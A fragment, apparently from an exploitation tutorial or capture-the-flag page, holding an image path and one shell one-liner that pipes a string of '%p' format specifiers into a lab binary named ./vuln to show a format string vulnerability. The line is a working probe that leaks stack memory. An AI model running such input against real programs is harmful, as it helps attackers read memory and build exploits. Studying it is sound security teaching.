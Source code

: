 python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,20)]))" | ./vuln - format string vulnerability
